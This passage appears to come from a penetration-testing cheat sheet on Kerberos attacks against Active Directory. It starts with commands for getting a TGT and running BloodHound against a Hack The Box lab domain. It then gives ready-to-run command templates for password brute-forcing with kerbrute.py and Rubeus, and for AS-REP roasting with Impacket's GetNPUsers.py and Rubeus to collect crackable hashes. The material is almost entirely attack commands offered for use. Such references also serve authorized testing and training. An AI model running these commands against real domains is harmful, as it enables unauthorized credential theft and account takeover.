 ```
getTGT.py absolute.htb/d.klay
```

{% code overflow="wrap" %}
```
KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c All -d absolute.htb -u d.klay@absolute.htb
```
{% endcode %}

### Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

{% code overflow="wrap" %}
```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```
{% endcode %}

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

{% code overflow="wrap" %}
```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
{% endcode %}

### ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

{% code overflow="wrap" %}
```bash
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
{% endcode %}

With [Rubeus](https://github.com/GhostPack/Rubeus):

```
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

